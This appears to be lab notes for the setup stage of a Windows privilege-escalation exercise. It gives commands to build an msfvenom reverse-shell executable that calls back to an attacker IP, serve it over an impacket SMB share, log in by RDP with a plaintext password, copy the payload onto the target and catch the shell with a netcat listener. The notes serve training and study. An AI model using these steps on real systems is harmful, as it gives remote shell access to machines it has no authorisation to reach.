

0x2 Initial Setup

**DISCLAIMER**
**Do not try this in office systems**

----

# Create reverse.exe using msfvenom
```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.4.127 LPORT=53 -f exe -o reverse.exe
```

# Setup SMB Server in Kali
```console
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

# RDP
```console
rdesktop -u user -ppassword321 10.10.185.15
```

# Upload files
```console
copy \\10.9.4.127\kali\reverse.exe C:\PrivEsc\reverse.exe
```

# Setup netcat listener for local shell
```console
rlwrap nc -nvlp 53
```

# WinPEAS
[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)


